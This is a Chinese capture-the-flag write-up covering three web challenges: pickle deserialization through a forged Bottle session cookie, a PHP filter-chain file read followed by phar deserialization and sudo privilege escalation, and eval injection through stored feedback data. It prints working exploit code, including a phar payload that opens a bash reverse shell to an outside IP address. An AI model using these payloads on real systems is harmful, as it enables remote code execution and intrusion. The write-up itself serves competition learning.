CTF
mountain
Python Bottle框架伪造session打pickle反序列化
拿到题目看一下源码，有hint

访问/display

根据提示，尝试用photo参数读图片

猜测应该有任意文件读取
读一下/etc/passwd

接下来看看能不能读源码
先读环境变量/proc/self/cmdline，发现被waf了

再试试直接读/proc/1/cmdline（self被waf了）

得到源码位置，我们直接读
/apppppp/app.py

拿到源码
1from bottle import Bottle, route, run, template, request, response
2from config.D0g3_GC import Mountain
3import os
4import re
5
6
7messages = []
8
9@route("/")
10def home():
11 return template("index")
12
13
14@route("/hello")
15def hello_world():
16 try:
17 session = request.get_cookie("name", secret=Mountain)
18 if not session or session["name"] == "guest":
19 session = {"name": "guest"}
20 response.set_cookie("name", session, secret=Mountain)
21 return template("guest", name=session["name"])
22 if session["name"] == "admin":
23 return template("admin", name=session["name"])
24 except:
25 return "hacker!!! I've caught you"
26
27
28@route("/display")
29def get_image():
30 photo = request.query.get('photo')
31 if photo is None:
32 return template('display')
33 if re.search("^../|environ|self", photo):
34 return "Hacker!!! I'll catch you no matter what you do!!!"
35 requested_path = os.path.join(os.getcwd(), "picture", photo)
36 try:
37 if photo.endswith('.png'):
38 default_png_path = "/appppp/picture/"
39 pngrequested_path = default_png_path+photo
40 with open(pngrequested_path, 'rb') as f:
41 tfile = f.read()
42 response.content_type = 'image/png'
43 else:
44 with open(requested_path) as f:
45 tfile = f.read()
46 except Exception as e:
47 return "you have some errors, continue to try again"
48 return tfile
49
50
51@route("/admin")
52def admin():
53 session = request.get_cookie("name", secret=Mountain)
54 if session and session["name"] == "admin":
55 return template("administator", messages=messages)
56 else:
57 return "No permission!!!!"
58
59
60
61
62if __name__ == "__main__":
63 os.chdir(os.path.dirname(__file__))
64 run(host="0.0.0.0", port=8089)
这里是导入的是构造cookie的key
from config.D0g3_GC import Mountain
key可以通过任意文件读取读到
/appppp/config/D0g3_GC.py

通过代码我们可以发现，哪怕我们构造出admin进入到/admin路由那我们其实也不能得到什么
事实上这是一道pickle反序列化的题目


我们如果跟进get_cookie方法(/admin和/hello都有)我们可以发现

在这个get_cookie方法里面会对cookie中的数据进行pickle反序列化
也就是说我们可以通过他就可以进行任何命令的执行
exp
1from bottle import route, run,response
2import os
3
4
5Mountain = "123"
6
7class exp(object):
8 def __reduce__(self):
9 return (eval, ("__import__('os').popen('calc').read()",))
10
11
12@route("/")
13def index():
14 session = exp()
15 response.set_cookie("name", session, secret=Mountain)
16 return "success"
17
18
19if __name__ == "__main__":
20 os.chdir(os.path.dirname(__file__))
21 run(host="127.0.0.1", port=8081)
弹shell拿flag

图片查看器
考点：1.信息收集 2.filterchain读文件 3.phar反序列化 4.提权

拿到题目是一个名字输入器，但这玩意没什么用
随便输一个名字就会进入到/trans1t.php

我们先不急着去挑战，先看看这个页面有没有什么hint

提示有东西在hI3t.php,但是我们没办法直接访问
接着点来到挑战来到/chal13nge.php

是一个图片上传，我们再查看一下源代码

结合刚刚看到的hI3t.php，猜测大概率是要想办法读hI3t.php
再看看这个文件上传，再上传成功后可以进行文件信息的查询，文件信息查询使用的方法很可能存在filter链的漏洞
这里是关于oracle的文件读取漏洞
PHP Filter链——基于oracle的文件读取攻击 - 先知社区
自动化工具：https://github.com/synacktiv/php_filter_chains_oracle_exploit
python filters_chain_oracle_exploit.py --target http://125.70.243.22:31345/chal13nge.php --file '/var/www/html/hI3t.php' --parameter image_path
//--target 目标地址 --file 要读的文件地址 --parameter 要注入的参数
'
访问/x@1.php

我们可以看到一个后门类backdoor，通过它我们可以执行任意的命令
那我们怎么调用这个后门类呢？
结合刚刚的文件上传和文件信息查询，我们可以想到phar反序列化
1<?php
2
3class backdoor
4{
5 public $cmd;
6
7 function __destruct()
8 {
9 $cmd = $this->cmd;
10 system($cmd);
11 }
12}
13
14$a=new backdoor();
15$a->cmd='bash -i >& /dev/tcp/106.55.168.231/7777 0>&1"'; //弹个shell
16$phar = new Phar("test.phar");
17$phar->startBuffering();
18$phar->setStub("<php __HALT_COMPILER(); ?>");
19$phar->setMetadata($a);
20$phar->addFromString("test.txt", "test");
21$phar->stopBuffering();
接着我们可通过抓包修改文件后缀的方法上传我们的phar文件

上传成功
我们接着读phar文件


成功弹shell

尝试读flag发现要提权
通过 sudo -l 可以发现有一个check.sh文件具有sudo权限

执行check.sh会运行run.sh

也就是说我们可以通过写一个run.sh来读flag
echo "cat /root/flag" > /tmp/rootscripts/run.sh
chmod 777 /tmp/rootscripts/run.sh
sudo /tmp/rootscripts/check.sh "/tmp/rootscripts"

拿到flag
题外
/chal13nge.php的源码
1<?php
2error_reporting(0);
3include "class.php";
4
5if (isset($_POST['image_path'])) {
6 $image_path = $_POST['image_path'];
7 echo "The owner ID of the file is: ";
8 echo fileowner($image_path)."<br><br>";
9 echo "文件信息如下：". "<br>";
10 $m = getimagesize($image_path);
11 if ($m) {
12 echo "宽度: " . $m[0] . " 像素<br>";
13 echo "高度: " . $m[1] . " 像素<br>";
14 echo "类型: " . $m[2] . "<br>";
15 echo "HTML 属性: " . $m[3] . "<br>";
16 echo "MIME 类型: " . $m['mime'] . "<br>";
17 } else {
18 echo "无法获取图像信息，请确保文件为有效的图像格式。";
19 }
20}
21
22$allowed_extensions = ['jpg', 'jpeg', 'gif', 'png'];
23$upload_dir = __DIR__ . '/uploads/';
24if ($_SERVER['REQUEST_METHOD'] == 'POST' && isset($_FILES['image'])) {
25 $file = $_FILES['image'];
26 $file_ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
27
28 if (in_array($file_ext, $allowed_extensions)) {
29 $upload_path = $upload_dir . basename($file['name']);
30
31 if (move_uploaded_file($file['tmp_name'], $upload_path)) {
32 echo "上传成功！路径: " . 'uploads/' . basename($file['name']);
33 } else {
34 echo "文件上传失败，请重试。";
35 }
36 } else {
37 echo "不支持的文件类型，仅支持: " . implode(", ", $allowed_extensions);
38 }
39}
40?>
41<!DOCTYPE html>
42<html lang="zh-CN">
43<head>
44 <meta charset="UTF-8">
45 <title>图片上传与信息获取</title>
46</head>
47<body>
48<h2>图片上传</h2>
49<form action="" method="post" enctype="multipart/form-data">
50 <input type="file" name="image" required>
51 <button type="submit">上传图片</button>
52</form>
53<h2>获取图片信息</h2>
54<form action="" method="post">
55 <label for="image_path">请输入图片路径：</label>
56 <input type="text" name="image_path" required>
57 <button type="submit">获取图片信息</button>
58</form>
59</body>
60<!--只需要从一个文件中获取到关键信息，这个文件在哪儿呢-->
从源码我们可以看到关于照片的信息查询使用的是getimagesize函数，而且没有对传入的参数进行过滤
而getimagesize也是受filter链影响的函数之一

AWDP
Chemical_Plant
攻击
FeedbackService.php
1<?php
2error_reporting(0);
3class FeedbackService {
4 private $db;
5
6 public function __construct($dbConnection) {
7 $this->db = $dbConnection;
8 }
9
10 public function addFeedbackByUserId($user_id, $feedback) {
11 // 预处理
12 $stmt = $this->db->prepare("INSERT INTO feedback (userid, feedback) VALUES (?, ?)");
13 $stmt->bind_param("ss", $user_id, $feedback);
14
15 // 执行插入操作
16 if ($stmt->execute()) {
17 return true;
18 } else {
19 return false;
20 }
21 }
22
23 public function getEmailById($id) {
24 // 预处理
25 $stmt = $this->db->prepare("SELECT userid FROM feedback WHERE id = ?");
26 $stmt->bind_param("i", $id);
27 // 执行查找操作
28 if ($stmt->execute()) {
29 $result = $stmt->get_result();
30 if ($result->num_rows > 0) {
31 $row = $result->fetch_assoc();
32 $arr = stripslashes($row['userid']);
33 eval('$arr='.$arr.';');
34 return $arr;
35 } else {
36 return null;
37 }
38 } else {
39 return false;
40 }
41 }
42}
43
44?>
在FeedbackService.php的getEmailById方法中的存在eval，假如arr可控，那我们就可以进行任意命令执行
那我们继续往上看
$arr = stripslashes($row['userid']);
变量arr来源于数据库查表id返回的结果中的userid
假如说我们可以提前在userid中写入我们要执行的命令，再通过id查询，就可以进行任意命令的执行
写入数据库的命令我们可以在FeedbackService.php的addFeedbackByUserId方法中找到
public function addFeedbackByUserId($user_id, $feedback) {
// 预处理
$stmt = $this->db->prepare("INSERT INTO feedback (userid, feedback) VALUES (?, ?)");
$stmt->bind_param("ss", $user_id, $feedback);
// 执行插入操作
if ($stmt->execute()) {
return true;
} else {
return false;
}
}
这里通过贫拼接的方式将user_id拼接到sql语句中并执行
那我们接下就需要找到哪里调用addFeedbackByUserId方法

在services.php里进行用户反馈内容提交时，没有进行任何过滤就调用addFeedbackByUserId方法写入
那我们执行个whoami试试
命令为什么要这样写呢
eval('$arr='.$arr.';');
因为命令执行的时候进行了简单的拼接
写入数据后我们接下来就要看看怎样调用getEmailById方法进行数据库id查询
controller.php
1<?php
2
3// 引入类文件
4require_once 'NewsService.php';
5require_once 'FeedbackService.php';
6require_once'dbconnect.php';
7require_once 'news_data.php';
8
9$db = new DBConnect();
10$connection = $db->getConnection();
11$NewsService = new NewsService($news_items);
12$FeedbackService = new FeedbackService($connection);
13
14$className = isset($_GET['c']) ? $_GET['c'] : null;
15$methodName = isset($_GET['m']) ? $_GET['m'] : null;
16$id = isset($_GET['id']) ? $_GET['id'] : null;
17
18
19if ($className && $methodName) {
20 if ($className === 'NewsService' && method_exists($NewsService, $methodName))
21 {
22 echo $NewsService->$methodName($id);
23 }
24 elseif ($className === 'FeedbackService' && method_exists($FeedbackService, $methodName))
25 {
26 echo $FeedbackService->$methodName($id);
27 } else {
28 echo "无效的类或方法";
29 }
30} else {
31 echo "缺少类或方法参数";
32}
33
34
35?>
在controller.php里面可以通调用FeedbackService.php和NewsService.php中的方法
$className = isset($_GET['c']) ? $_GET['c'] : null;
$methodName = isset($_GET['m']) ? $_GET['m'] : null;
$id = isset($_GET['id']) ? $_GET['id'] : null;
通过get传参即可调用getEmailById方法
payload:
c=FeedbackService&m=getEmailById&id=0
这个id我们其实并不清楚，可以爆破或者一个个试试，反正不多

命令成功执行，接下来只需要读flag就行了